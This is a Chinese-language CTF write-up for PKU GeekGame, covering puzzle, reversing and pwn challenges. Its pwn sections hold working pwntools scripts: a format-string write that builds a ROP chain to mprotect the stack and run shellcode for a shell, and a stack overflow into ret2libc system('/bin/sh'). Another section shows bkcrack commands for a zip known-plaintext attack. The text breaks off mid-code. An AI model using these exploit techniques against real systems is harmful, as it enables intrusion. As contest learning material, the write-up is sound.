





# 0x00. 一眼盯帧

搜索得到一个 gif 拆帧网站, 然后把得到的字符串做一个循环移位即得 flag.

```cpp
#include <bits/stdc++.h>
using namespace std;
const char *str = "synt{unirshangtrrxtnzr}";
int main (){
	int n = strlen (str);
	for (int i = 0; i < n; ++i)
		if (i == 4 || i == n - 1) putchar (str[i]);
		else putchar ((str[i] - 'a' + 's' - 'f' + 26) % 26 + 'a');
	putchar ('\n');
}
```

# 0x01. 小北问答!!!!!

> “觉得等待一小时冷却开心，我一次都没有这样想过”  
> “虽然做一整场的小北问答有些超乎想象，但如果累积起一个又一个小时，或许也不是真的不可能吧”  
> “答案好像不太对喵，你再想想喵，别急急急急急急喵”

1. Google 搜索题目找到[博客](https://blog.csdn.net/Kangyucheng/article/details/104858780), 得知使用 `sbatch` 命令提交任务.
2. 翻找 [Github 仓库](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss), 在 Makefile 开头找到了三个很像版本号的数字.
3. Google 搜索题目找到[博客](https://blog.csdn.net/qq_19926599/article/details/86747401), 得知答案为 `Watch6,16`.
4. 在 github 上的 [PKU-GeekGame](https://github.com/PKU-GeekGame) 搜索 nickname 找到[源代码](https://github.com/PKU-GeekGame/gs-backend/blob/2a1b6743559b95a534e186c4e170eab6b8de5400/src/store/user_profile_store.py#L72), 把这一段复制下来, 输出 `DISALLOWED_CHARS` 的元素个数即可. 根据一阶段提示和仓库的 `README.md`, 要使用 3.8 的 python 版本运行.
5. 由维基百科知 2011 年 1 月的 b 站域名为 `bilibili.us`, 使用 web archive 搜索到[游戏区页面](https://web.archive.org/web/20110102140319/http://bilibili.us/video/game.html), 所以是`游戏视频,游戏攻略·解说,Mugen,flash游戏`.
6. Google 搜索图片得知是卢森堡音乐厅, 经由维基百科的链接找到官网为 `philharmonie.lu`.

# 0x02. Z 公司的服务器

## 服务器

使用 Wireshark 打开流量包, 找到传输内容开头是 `rz`, 所以服务器使用 `sz` 命令通过 zmodem 协议传输文件. 尝试一堆客户端软件, 找到 SecureCRT 5.1 可以成功接收 `flag.txt`.

# 0x04. 基本功

## 简单的 flag

发现压缩包里除了 flag 之外还有 `chromedriver_linux64.zip`, 而其文件大小为 $5.57\ \mathrm{MB}$, Google 搜索得知其为 89.0.4389.23 版本. 使用 ARCHPR 明文攻击即得无密码的压缩包.

## 冷酷的 flag

学习 [pcapng 文件格式](https://pcapng.com/)得知开头有连续 $16$ 个字节是确定的, 所以猜测同样是明文攻击. 找到 [bkcrack](https://github.com/kimci86/bkcrack), 算出 key 就可以把 pcapng 解压出来.

```sh
$ bkcrack -C challenge_2.zip -c flag2.pcapng -x 8 4d3c2b1a01000000ffffffffffffffff
$ bkcrack -C challenge_2.zip -c flag2.pcapng -k d158956b c06e6d48 d1c500d0 -d flag2.pcapng
$ strings flag2.pcapng | grep flag{
```

# 0x05. Dark Room

## Flag 1

在题目源码里找到如下地图：

```
# Front_Door   #             #           #          #              #         #
# Locked_Door2 # Hallway     # Hallway   # Bad_Room #              #         #
#              #             # Hallway   #          #              #         #
#              #             # Dark_Room # Hallway  # Hallway      # Lootway #
#              # Good_Choice #           #          # Locked_Door1 #         #
#              # Choice_Room # Hallway   # Hallway  # Hallway      #         #
#              # Bad_Choice  #           #          # Loot_Dirty   #         #
```

先去 `Bad_Room` 拿到钥匙打开 `Locked_Door1`, 然后去 `Good_Choice` 拿到钥匙打开 `Locked_Door2`. 中途经过 `Lootway` 和 `Loot_Dirty` 可以提高 sanity, 最终到达 `Front_Door` 时的 sanity 为 $90$, 所以写脚本刷出三次增加 sanity 的 `help` 即可.

```py
from Crypto.Util.number import *
from pwn import *
from ast import literal_eval
from subprocess import getoutput
from time import sleep

context (os='linux', arch='x86_64')

while True:
    sleep (2)
    sh = remote('prob16.geekgame.pku.edu.cn', 10016)
    sh.recvuntil (b'token: ')
    sh.sendline (b'70:This_is_token')

    sh.recvuntil (b']: ')
    sh.sendline (b'newgame')
    sh.recvuntil (b']: ')
    sh.sendline (b'70')
    sh.recvuntil (b') ')
    sh.sendline (b'y')
    
    flag = True
    for i in range (3):
        sh.recvuntil (b']: ')
        sh.sendline (b'h')
        sh.recvuntil (b'(')
        sanity = int (sh.recvuntil (b'%')[:-1])
        print ("sanity =", sanity)
        if sanity != 109 + i * 9:
            print ("wocuole!")
            flag = False
            sh.close ()
            break
    if flag:
        print ("woduile!")
        sh.interactive ()
        break
```

# 0x06. 麦恩·库拉夫特

> “你这辈子就是被 CTF 给害了，没法跟正经小可爱处事，跟小可爱吃饭的时候，总是在想，要是能启发我小北问答的思路就好了。送对方回家的时候，总是在想，要是能社工找到地址就好了。坐在人家的沙发上的时候，对方说进房间换个衣服，你的心怦怦跳——要是出来的时候给你展示 XSS 技巧怎么办？要是靠过来时要拉你去打瑞典原神怎么办？然后小可爱穿着睡衣出来了，问你做不做一些两个人才能做的事情，你反手新建 114514 张华维码让小可爱来开荒，对方沉默了一会说我说的不是 CTF。”——节选自 GeekGame 选手群

## 探索的时光

使用旁观者模式, 跟着火把的方向走就能找到写着 flag 的牌子.



## 结束了？

查看存档里的 `region` 文件夹, 查阅 MC 百科知其按 $x$ 和 $z$ 坐标以 $512$ 长度分块, 而出生点在原点附近, 所以 flag2 应该藏在离原点巨大远且文件巨大的 $(6,-4)$, 根据附近的文件大小猜测应该在 $x$ 和 $z$ 坐标较小的 $1/4$ 部分.

考虑 `fill` 指令, 每次尝试把一个长方体区域的所有钻石块替换为金块, 游戏会报告替换了多少块, 但每次至多检查 $2^{15}$ 块, 所以先枚举 $z$ 坐标, 用 `/fill 3073 -63 -18xx 3328 64 -18xx minecraft:gold_block replace minecraft:diamond_block` 检查 `-18xx` 是不是钻石块所在坐标, 找到之后在 $x,y$ 平面里二分就好了.



## 为什么会变成这样呢？

查看存档里的 `region` 文件夹的文件大小, 发现 $(1,-1)$ 文件巨大, 飞去那里之后发现一个巨大建筑物, 居然是强大的出题人造的红石计算机 /jy

根据游戏里的提示, 计算机会循环输出一个 2KB 大小的文件, 所以猜测是存储 flag 的图片. 对电路的 $16$ 个输出分别接上一个命令方块, 把数字打印到日志里. 很快啊, 一眼望去看到一个 `89 50 4E 47`, 感觉稳了, 但是很有问题: 这个字符串居然没有相邻相同字符, 原来是输出电路一直保持高电平, 所以命令方块只会输出一次.

考虑搞出一个 5Hz 的打点计时器, 向日志里打印时间戳, 就可以知道相邻连续段里有多少字符. 把两个红石中继器连成一个回路, 外接一个打印 `-` 的命令方块, 再调整一下中继器的延迟让它们尽可能对齐, 最后把日志里的字符串搞出来, 把每个 `-` 替换成之前的字符. 不过有时会出现相邻两个数字, 这时把第一个数字强制匹配一个 `-` 即可.



把得到的字符串循环移位使得开头是 `89 50 4E 47`, 作为 png 文件打开:



感觉能打开就是奇迹了, 但这也太扭曲了, 后面几个根本看不出是啥字符, 尝试了几个大概可能的读法均以失败告终, ~~于是被迫抱着前功尽弃的懊悔睡觉~~.

早上起来又盯了一段时间, 突然想到大概是一些位置偏移之类的地方还原炸了, 看下划线的位置猜测下半部分向左偏移了一点, 于是掏出伟大的 mspaint, 选中这部分偏移回去.


完美! 居然是 `EFPjE`, 真是太扭曲了 /oh

# 0x07. Emoji Wordle

## Level 1

每次询问 Placeholder, 对于每种出现的字符, 复制 $64$ 遍然后询问, 即得这种字符在哪些位置出现过. 重复此过程, 直至答案里的每种字符都被询问到.

## Level 2

猜测答案存储在 `PLAY_SESSION` cookie 里, base64 解码一下, 发现 `target` 字段很像答案. 用 Level 1 的方法询问几个, 得到如下对应关系:

```
💆 = '\xf0\x9f\x92\x86' = '\uD83D\uDC86'
👩 = '\xf0\x9f\x91\xa9' = '\uD83D\uDC69'
🐿 = '\xf0\x9f\x90\xbf' = '\uD83D\uDC3F'
```

其中 `\uD83D\uDC` 是固定的, 问题在于后两位. 比如 `3F` 与 `bf` 模 $64$ 同余, 而相差的倍数再加 $2$ 即得字符编码的倒数第 $3$ 位, 写个转换程序即得.

```py
string = "85/D83D/DC57/D83D/DC61/D83D/DC85/D83D/DC62/D83D/DC43/D83D/DC57/D83D/DC8A/D83D/DC45/D83D/DC5E/D83D/DC69/D83D/DC3F/D83D/DC57/D83D/DC5E/D83D/DC72/D83D/DC5D/D83D/DC5F/D83D/DC78/D83D/DC7B/D83D/DC82/D83D/DC41/D83D/DC76/D83D/DC69/D83D/DC78/D83D/DC55/D83D/DC5A/D83D/DC73/D83D/DC85/D83D/DC66/D83D/DC64/D83D/DC89/D83D/DC67/D83D/DC5B/D83D/DC6A/D83D/DC48/D83D/DC55/D83D/DC86/D83D/DC5E/D83D/DC77/D83D/DC72/D83D/DC79/D83D/DC45/D83D/DC5C/D83D/DC72/D83D/DC85/D83D/DC86/D83D/DC88/D83D/DC80/D83D/DC87/D83D/DC74/D83D/DC84/D83D/DC46/D83D/DC3F/D83D/DC52/D83D/DC48/D83D/DC44/D83D/DC72/D83D/DC81/D83D/DC7D/D83D/DC58/D83D/DC45/D83D/DC72/D83D/DC7C/D83D/DC45"
list = map (lambda x: int (x, 16), string.split ('/D83D/DC'))
ans = b''
for i in list:
	ans += b'\xf0\x9f' + (i // 64 + 0x90).to_bytes (1, 'little') + (i % 64 + 0x80).to_bytes (1, 'little')
print (ans.decode ())
```

# 0x09. 简单的打字稿

> “世界上最遥远的距离，是我和你在同一个文件，但我见不到你。”——节选自 GeekGame 选手群

## Super Easy

搜索到[这篇帖子](https://stackoverflow.com/questions/73207976/substring-of-a-string-type-typescript), 得知如下的代码编译通过当且仅当给出的字符串是 `flag1` 的子串.

```ts
function transform<T extends string>(str: flag1 extends `${string}${T}${string}` ? T : never) {}
transform ('{tOo0_e4SY_f1aG_foR_TOoo_EAsy_lANg}');
```

于是转化为如下问题: 给定 `flag1`, 每次询问字符串 $s$ 是否为 `flag1` 的子串. 我的做法是先询问一遍 ascii 在 32 到 122 之间的每个字符~~做关键词过滤导致的喵~~, 即得 `flag1` 里出现了哪些字符, 然后从 `{` 开始扩展前缀, 每次枚举下一个字符是什么, 直至 `}` 就做完了. “只需”几百次询问, 纯手工打造十几分钟就出来了~~不会写网页脚本导致的喵~~.

## Very Easy

~~根据分值猜测~~只需把字符串的嵌套类型剥开就行. 学习一下 TypeScript 关于类型的各种语言特性, 发现 `extends` 对类型联合具有分配律, 从而可以把 `object |` 删掉, 然后使用 `infer` 做类型推断即可. 剩下的部分与 `flag1` 相同, 虽然现在才发现 `infer` 好像也可以推断出子串就是了 qwq

```ts
type crychic<T> = T extends new () => { v : () => infer R } ? R : never;
type soyo = crychic<flag2>;
type mygo<T> = T extends (a: (a: unknown, b: infer P & Record<string, string>) => never) => any ? P : never;
type soyorin = keyof mygo<soyo>;

function transform<T extends string>(str: soyorin extends `${string}${T}${string}` ? T : never) {}
transform ('{Ts_FLaG_beTTer_tHan_PytH0N!}');
```

# 0x0C. 汉化绿色版免费下载

~~诶是 kirikiri, 这个我熟啊!~~  
~~什么要解包 gal? 不了解, 我只会玩 gal :(~~

## 普通下载

使用 GARbro 解包 `data.xp3`, 文件夹里搜索 `flag{` 子串即得.

## 高速下载

Google 搜索找到[博客](https://iyn.me/i/post-45.html), 从而找到 [KirikiriDescrambler.exe](https://github.com/arcusmaximus/KirikiriTools/releases/tag/1.7) 反混淆存档文件, 手玩然后存个存档观察一下, 发现 `data0.kdt` 里的 `prev_hash` 存了 flag 的 Hash 值, `datasu.ksd` 里的参数表明 flag 里分别有 $6$ 个 `A`, $3$ 个 `E`, $1$ 个 `I`, $6$ 个 `O`, 而 `scenario/round2.ks` 里写了 Hash 值计算方法.

我们只需写一个 dfs 枚举所有由 $6$ 个 `A`, $3$ 个 `E`, $1$ 个 `I`, $6$ 个 `O` 组成的字符串, 分别计算 Hash 值并比对即可. ~~然而我把程序丢了, 您要相信我确实是会写 dfs 的 /kel~~ 算了我还是重写一下吧 /kk

```cpp
#include <bits/stdc++.h>
using namespace std;
typedef long long LL;
const char *str = "AEIO";
const int mod = 19260817, bs = 13337;
int cnt[4] = {6, 3, 1, 6}, nowh = 1337;
vector<int> now;
int main () {
	if (now.size () == 16) {
		if ((nowh * 13337ll + 66) % mod == 7748521) {
			printf ("flag{");
			for (int i = 0; i < 16; ++i)
				putchar (str[now[i]]);
			puts ("}");
			exit (0);
		}
		return 0;
	}
	for (int i = 0; i < 4; ++i)
		if (cnt[i]) {
			int tmp = nowh; -- cnt[i]; now.push_back (i);
			nowh = (nowh * 13337ll + 11 * (i + 1)) % mod;
			main (); nowh = tmp;
			++ cnt[i]; now.pop_back ();
		}
}
```

# 0x0D. 初学 C 语言

## Flag 1

`printf` 的参数个数由格式化字符串决定, 而第 $7$ 个之后的参数在栈上, 所以可以把栈帧输出, 写个程序转成字符串.

```cpp
// %s %d %d %d %d 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx 0x%llx
#include <stdio.h>
typedef unsigned long long ULL;
const ULL a[4] = {0x3465527b67616c66, 0x66546e3152505f44, 0x6f735f456430635f, 0xa7d797a34655f};
int main () { printf ("%s", (char *)a); }
```

## Flag 2

题目要求把 shell 运行出来. 注意到使用格式化字符串 `%...$hhn` 可以修改栈上的任意位置, 所以可以绕过金丝雀实现 ROP. 先把栈地址和代码段地址拿到, 然后调用 `mprotect` 函数把栈设为可执行的, 最后跳转到栈上的 shell code.

```py
from Crypto.Util.number import *
from pwn import *
from ast import literal_eval
from subprocess import getoutput

context (os='linux', arch='x86_64')
maxlen = 272

def fmt_str(addr, target):
    fmtstr = "a" * target
    fmtstr += "%" + str(34 + maxlen // 8) + "$hhn"
    fmtstr += ' ' * (maxlen - len(fmtstr))
    return fmtstr.encode () + p64 (addr)

# `addr` is address in real time
def modify (addr, target):
    for i in range (8):
        sh.recvuntil (b'instruction:\n')
        payload = fmt_str (addr + i, (target >> (i * 8)) & 255)
        sh.sendline (payload)

# `soyo` is address in gdb (w/o randomization)
def modify_addr (soyo, target):
    addr = pubaddr + (soyo - 0xd520)
    modify (addr, target)

def get_int (offset):
    sh.recvuntil (b'instruction:\n')
    fmtstr = "%" + str(offset) + "$p"
    sh.sendline (fmtstr.encode ())
    return int (sh.recvline ().strip ().decode (), 16)

def get_addr_int (soyo):
    offset = (soyo - 0xd4c0) // 8 + 6
    return get_int (offset)

sh = remote('prob09.geekgame.pku.edu.cn', 10009)
sh.recvuntil (b'token: ')
sh.sendline (b'70:This_is_token')

pubaddr = get_int (1)
retaddr = get_addr_int (0xd9b8)
print ('retaddr =', retaddr)

shell_code = asm (shellcraft.sh())
print ('sc_len =', len (shell_code))

for i in range (len (shell_code)):
    modify (pubaddr + i, shell_code[i])

modify_addr (0xd9b8 + 0x00, retaddr + 0x9cd2 - 0xa3fd)  # pop rdi ; ret
modify_addr (0xd9b8 + 0x08, pubaddr & -4096)
modify_addr (0xd9b8 + 0x10, retaddr + 0x1781e - 0xa3fd)  # pop rsi ; ret
modify_addr (0xd9b8 + 0x18, 2 << 12)
modify_addr (0xd9b8 + 0x20, retaddr + 0x9bdf - 0xa3fd)  # pop rdx ; ret
modify_addr (0xd9b8 + 0x28, 7)
modify_addr (0xd9b8 + 0x30, retaddr + 0x5ab10 - 0xa3fd) # <mprotect>
modify_addr (0xd9b8 + 0x38, pubaddr)

sh.recvuntil (b'instruction:\n')
sh.sendline (b'exit')

sh.interactive ()
```

# 0x0E. Baby Stack

## Flag 1

丢进 IDA, 发现长度限制输入 $0$ 就是没有限制, 直接把返回地址覆盖为 `backdoor` 的地址即可. 但是要补一个 `ret` 指令, 从而满足 `rsp` 按 $16$ 字节对齐的要求.

```py
from Crypto.Util.number import *
from pwn import *
from ast import literal_eval
from subprocess import getoutput

context (os='linux', arch='x86_64')

sh = remote('prob10.geekgame.pku.edu.cn', 10010)
sh.recvuntil (b'token: ')
sh.sendline (b'70:This_is_token')

sh.recvuntil (b'included!)\n')
sh.sendline (b'0')
sh.recvuntil (b'string:\n')
sh.sendline (b'a' * 0x78 + p64 (0x4011d3) + p64 (0x4011b6))
sh.interactive ()
```

## Flag 2

丢进 IDA 得出如下源码:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[64]; // [rsp+0h] [rbp-78h] BYREF
  char s[56]; // [rsp+40h] [rbp-38h] BYREF

  init(argc, argv, envp);
  puts("please enter your flag~(less than 0x20 characters)");
  __isoc99_scanf("%s", s);
  if ( (int)strlen(s) > 32 )
  {
    puts("byebye~");
  }
  else
  {
    printf("this is your flag: ");
    printf(s);
    puts("\nWhat will you do to capture it?:");
    __isoc99_scanf("%s", v4);
    puts("so you want to ");
    printf(v4);
    printf("\n and your flag again? :");
    __isoc99_scanf("%s", s);
    puts(s);
    puts("go0d_j0b_und_go0d_luck~:)");
  }
  return 0;
}
```

发现 libc 里有 `system` 函数以及字符串 `/bin/sh`, 所以先用 `printf` 拿到 libc 的地址, 然后 ROP 即可, 同样需要注意 $16$ 字节对齐. 有时会运气差抽中 bad bytes, 但我们要相信多次随机的力量（

```py
from pwn import *
from ast import literal_eval
from subprocess import getoutput

sh = remote('prob11.geekgame.pku.edu.cn', 10011)
sh.recvuntil (b'token: ')
sh.sendline (b'70:This_is_token')

sh.recvuntil (b'characters)\n')
sh.sendline (b'%21$p')
sh.recvuntil (b'flag: ')
flag1 = int (sh.recvline ().strip ().decode (), 16)

libc_addr = 0x7fb32ee2fc50 - 0x7fb32ed3ad90 + flag1 # <mprotect>
print ('libc_addr =', hex (libc_addr))

sh.recvuntil (b'it?:\n')
sh.sendline (b'test')

pop_rdi = libc_addr + 0x2a3e5 - 0x11ec50
bin_sh = libc_addr + 0x1d8698 - 0x11ec50
syst = libc_addr + 0x50d60 - 0x11ec50

rop = b'a' * 56 + p64 (pop_rdi) + p64 (bin_sh) + p64 (0x401304) + p64 (syst)

for i in [b'\x09', b'\x0a', b'\x0b', b'\x0c', b'\x0d', b'\x20']:
    if rop.find (i) >= 0:
        print ('rop has bad byte', i)

sh.recvuntil (b'again? :')
print ('rop =', rop)
sh.sendline (rop)
sh.interactive ()
```

# 0x0F. 绝妙的多项式

## Baby

丢进 IDA, 发现它把 flag 作为多项式代入 $1\sim 36$ 的值与答案数组对比, 所以做 Lagrange 插值即可.

PS: 我本来以为少了一个点值, 这是因为 $0$ 的点值是已知的. ~~所以让我出的话就会少给一个点值~~

```cpp
/* 一份从洛谷抄的插值板子 - https://www.luogu.com.cn/blog/220037/solution-p5158 */
const int zheshisha[36] = {0xCF6, 0x16C80709, 0x86B7BDA, 0x5FBEE9E, 0x24D1FFC1, 0x16F76AE2, 0x15F03305, 0x218C23F9, 0x33163AC1, 0x332C16E, 0x27E7B4A7, 0x241D8073, 0x1C6F122, 0x2D73DE13, 0x7FC0A09, 0x0D50F7B7, 0x261B1DD, 0x37E5BB8E, 0x0DA71DC5, 0x2DC3F20C, 0x0CCB13A, 0x2F6341E4, 0x0B0611DB, 0x0A382A1A, 0x103C09B2, 0x1CE2BE88, 0x19A9FD15, 0x2621CFC1, 0x2970DEAC, 0x8A463AA, 0x116C6D31, 0x222E9178, 0x33B9C9DD, 0x2F98D035, 0x0B8177A, 0x342611E8};

signed main() {
    ios_base::sync_with_stdio(false); cin.tie(0);
    int n = 36;
    a = array(n);
    b = array(n);
    rep(i, n) a[i] = i + 1, b[i] = zheshisha[i];
    int k = 1; while(k <= (n << 1)) k <<= 1;
    poly::init(k);
    r = Inter::inter(a, b);
    rep(i, n) io.write((char)r[i]);
	io.flush ();
}
```

## Easy

丢进 IDA, 发现它对 flag 做了一个类似 DFT 的变换, 然后与答案数组对比. 注意到输出是输入的线性变换, 所以照抄一遍下发程序的代码, 算出线性变换对应的矩阵, 然后做高斯消元即可.

```cpp
#include <bits/stdc++.h>
using namespace std;
typedef long long LL;
typedef vector<int> VI;
const int N = 1 << 18, mod = 998244353;
int ksm (int a, int b) {
	int res = 1;
	for (;b;b >>= 1, a = (LL)a * a % mod)
		if (b & 1) res = (LL)res * a % mod;
	return res;
}
int w[N];
void init () {
	int moe = ksm (3, 3808); w[N / 2] = 1;
	for (int i = N / 2 + 1; i < N; ++i)
		w[i] = (LL)w[i - 1] * moe % mod;
	for (int i = N / 2 - 1; i > 0; --i)
		w[i] = w[i * 2];
}
VI elem[64];
VI operator + (const VI &a, const VI &b) {
	int n = a.size ();
	vector<int> c(n);
	for (int i = 0; i < n; ++i)
		if ((c[i] = a[i] + b[i]) >= mod) { c[i] -= mod; }
	return c;
}
VI operator - (const VI &a, const VI &b) {
	int n = a.size ();
	vector<int> c(n);
	for (int i = 0; i < n; ++i)
		if ((c[i] = a[i] - b[i]) < 0) { c[i] += mod; }
	return c;
}
VI operator * (const VI &a, LL b) {
	int n = a.size ();
	vector<int> c(n);
	for (int i = 0; i < n; ++i)
		c[i] = a[i] * b % mod;
	return c;
}
void FFT () {
	int p = 64;
	while (p > 1) {
		p /= 2;
		for (int i = 0; i < 64; i += 2 * p) {
			for (int j = 0; j < p; ++j) {
				VI v6 = elem[i + j], v7 = elem[i + j + p];
				elem[i + j] = v6 + v7;
				elem[i + j + p] = (v6 - v7) * w[j + p];
			}
		}
	}
}
const int ans[64] = {0xF49, 0x121, 0x31C44DFF, 0x9BBB244, 0x9CD2637, 0x99E9344, 0x3A1174D9, 0x2982CE42, 0x202A3E59, 0x3AD2F444, 0x655DAC3, 0x181AE6C1, 0x2FFCF1EE, 0x0AAE9419, 0x2016E6F4, 0x19CF9F98, 0x2DEA04C3, 0x89262F4, 0x18327C16, 0x373BD1D9, 0x938E62A, 0x36B7868B, 0x3813BCFE, 0x0D213F8D, 0x7E67F22, 0x38FCD76, 0x32A17A7E, 0x2386EE67, 0x382D9FD7, 0x2FA45664, 0x4CFE37E, 0x2AF595C, 0x2103E392, 0x1536B2BA, 0x1C46D639, 0x0B170DEB, 0x2104AB3D, 0x334666E4, 0x0D52FFE1, 0x144A6446, 0x242BCC46, 0x37BF7317, 0x3A97D9A, 0x3B329D1A, 0x724F983, 0x1ED8A93E, 0x25E09BB8, 0x18121D9E, 0x2E301013, 0x105E3542, 0x375ADF03, 0x51674FE, 0x2AC2758E, 0x352291E2, 0x375D7604, 0x338E6B2A, 0x0C8EB7EB, 0x2F5350DC, 0x20E81988, 0x35F5C18E, 0x8753392, 0x0CD0ACE9, 0x17DF5455, 0x1B91C2B0};
int A[64][46]; // equations.
void Gauss () {
	for (int i = 0; i < 45; ++i) {
		if (!A[i][i]) {
			for (int j = i + 1; j < 64; ++j) if (A[j][i]) {
				swap (A[i], A[j]); break;
			}
		}
		assert (A[i][i]);
		int inv = ksm (A[i][i], mod - 2);
		for (int j = i; j < 46; ++j)
			A[i][j] = (LL)A[i][j] * inv % mod;
		for (int j = 0; j < 64; ++j) if (j != i) {
			int tmp = mod - A[j][i];
			for (int k = i; k < 46; ++k)
				A[j][k] = (A[j][k] + (LL)tmp * A[i][k]) % mod;
		}
	}
}
int main (){
	init ();
	for (int i = 0; i < 64; ++i) elem[i].resize (45);
	for (int i = 0; i < 45; ++i) elem[i][i] = 1;
	FFT ();
	for (int i = 0; i < 64; ++i) {
		A[i][45] = ans[i];
		for (int j = 0; j < 45; ++j)
			A[i][j] = elem[i][j];
	}
	Gauss ();
	for (int i = 0; i < 45; ++i) putchar (A[i][45]);
	putchar ('\n');
}
```

## Hard

同样注意到输出是输入的线性变换, 所以照抄一遍下发程序的代码, 算出线性变换对应的矩阵, 然后做高斯消元即可. 从 Easy 代码稍作修改即得, ~~真的很 Hard 捏.~~

```cpp
#include <bits/stdc++.h>
using namespace std;
typedef long long LL;
typedef vector<int> VI;
const int N = 1 << 18, mod = 998244353;
int ksm (int a, int b) {
	int res = 1;
	for (;b;b >>= 1, a = (LL)a * a % mod)
		if (b & 1) res = (LL)res * a % mod;
	return res;
}
int w[N], elem2[128];
VI elem[128];
void init () {
	int moe = ksm (3, 3808); w[N / 2] = 1;
	for (int i = N / 2 + 1; i < N; ++i)
		w[i] = (LL)w[i - 1] * moe % mod;
	for (int i = N / 2 - 1; i > 0; --i)
		w[i] = w[i * 2];
}
VI operator + (const VI &a, const VI &b) {
	int n = a.size ();
	vector<int> c(n);
	for (int i = 0; i < n; ++i)
		if ((c[i] = a[i] + b[i]) >= mod) { c[i] -= mod; }
	return c;
}
VI operator - (const VI &a, const VI &b) {
	int n = a.size ();
	vector<int> c(n);
	for (int i = 0; i < n; ++i)
		if ((c[i] = a[i] - b[i]) < 0) { c[i] += mod; }
	return c;
}
VI operator * (const VI &a, LL b) {
	int n = a.size ();
	vector<int> c(n);
